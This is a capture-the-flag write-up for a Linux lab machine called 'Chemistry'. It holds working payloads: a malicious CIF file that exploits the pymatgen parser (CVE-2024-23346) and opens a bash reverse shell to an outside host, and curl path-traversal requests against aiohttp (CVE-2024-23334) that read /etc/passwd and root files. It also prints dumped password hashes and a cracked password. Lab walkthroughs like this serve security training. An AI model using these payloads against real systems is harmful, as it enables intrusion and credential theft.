## Box Info

| Name                  | Chemistry        | 
| :-------------------- | ---------------: |
| Release Date          | 19 Oct, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |


## Enumeration

```bash
sudo nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.38 -oG allPorts
nmap -p 22,5000,8000 -sCV 10.10.11.38 -oN targeted
```

```bash
# Nmap 7.95 scan initiated Thu Feb 27 21:23:35 2025 as: /usr/lib/nmap/nmap --privileged -p 22,5000,8000 -sCV -oN targeted 10.10.11.38
Nmap scan report for 10.10.11.38 (10.10.11.38)
Host is up (0.058s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
|_http-title: Chemistry - Home
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.10)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
`http://10.10.11.38:5000/`





Once register and log in we identifier a upload files with CIF extension

## CVE-2024-23346

[Critical Security Flaw in Pymatgen Library (CVE-2024-23346)](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346)

[Arbitrary code execution when parsing a maliciously crafted JonesFaithfulTransformation transformation_string](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

Follow the proces of explotation we create 2 files with the follow code:

**poc.py**

```bash
from pymatgen.io.cif import CifParser
parser = CifParser("View2.cif")
structure = parser.parse_structures()
```

**View2.cif**

```bash
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

we run this on local machine for see if create us the pwned file empty, if create a file we have a potential command execution.



We add reverse shell to file cif and listening with netcat

```bash
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.36/4040 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

```bash
rlwrap nc -lvnp 4040
```

Once get the reverse shell we need to make our shell fully interactive

### TTY Treatment

```bash
script /dev/null -c bash
```

```bash
stty raw -echo; fg
```

```bash
reset xterm
```



### User "APP"



We found the database file as app user, we download the .db file and open with sqlite3



### SQLITE3

```sqlite
.tables
```

```sqlite
.schema user
```

```sqlite
SELECT * FROM user;
```

```sqlite
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
13|axel|9347f9724ca083b17e39555c36fd9007
14|kristel|6896ba7b11a62cacffbdaded457c6d92
15|adwad|3b2e574e9bb4d3e5b72f74864649c998
16|makarandgev777|c4ca4238a0b923820dcc509a6f75849b
17|shults|202cb962ac59075b964b07152d234b70
18|1|c4ca4238a0b923820dcc509a6f75849b
19|test|098f6bcd4621d373cade4e832627b4f6
20|'+or+1=1--|098f6bcd4621d373cade4e832627b4f6
21|test123|cc03e747a6afbbcbf8be7668acfebee5
```



We found the password for rosa

```bash
unicorniosrosados
```

#### Log in with SSH




We gonna run the script linpeas.sh for search all the machine for any privilege scalation



Identifier 8080 port open, sevice running on local

# Port Forwarding

- kali Machine

```bash
./chisel server -p 5678 --reverse
```



- rosa

```bash
./chisel client 10.10.14.36:5678 R:8080:127.0.0.1:8080
```



we identifier on headers a vulnerability for **Python/3.9 aiohttp/3.9.1**



## CVE-2024-23334

- Lab setup

```bash
git clone https://github.com/z3rObyte/CVE-2024-23334-PoC
cd CVE-2024-23334-PoC
python3 -m venv .env
chmod +x ./.env/bin/activate
source ./.env/bin/activate
pip3 install -r requirements.txt
python3 server.py
```

Exploit it!

```bash
bash exploit.sh
```

As root we can see the passwd file



Another way for get the passwd file is with **cURL**



```bash
curl -s --path-as-is "http://127.0.0.1:8080/assets/../../../../../../../etc/passwd"
```

```bash
curl -s --path-as-is "http://127.0.0.1:8080/assets/../../../../../../../root/root.txt"
```



If u can log in with ssh u can look the id_rsa file



Permission key

```bash
chmod 400 id_rsa
```

log in

```bash
ssh -i id_rsa root@10.10.11.38
```

